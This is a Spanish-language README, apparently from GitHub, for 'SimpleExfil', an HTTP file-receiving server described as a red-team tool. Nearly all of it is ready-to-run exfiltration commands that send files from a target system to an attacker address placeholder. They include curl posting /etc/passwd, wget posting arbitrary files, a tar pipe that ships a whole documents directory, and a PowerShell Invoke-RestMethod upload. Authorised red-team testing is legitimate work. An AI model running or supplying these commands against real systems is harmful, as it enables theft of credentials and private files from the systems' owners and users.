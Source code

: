 # SimpleExfil
Un servidor HTTP simple para recepción de archivos diseñado para actividades de Red Team.

### - Exfiltrar archivos desde sistema objetivo
bash# curl -X POST -F "file=@/etc/passwd" http://[IP-ATACANTE]:8000

bash# wget --post-file=/path/to/file http://[IP-ATACANTE]:8000

### - Subir múltiples archivos
curl -X POST -F "file=@documento.txt" -F "file=@config.conf" http://[IP-ATACANTE]:8000

### - Comprimir y subir directorio
tar czf - /home/user/documents/ | curl -X POST -F "file=@-;filename=documents.tar.gz" http://[IP-ATACANTE]:8000

### - PowerShell (Windows)
powershell# Invoke-RestMethod -Uri "http://[IP-ATACANTE]:8000" -Method Post -InFile "C:\Users\user\document.txt" -ContentType "multipart/form-data"
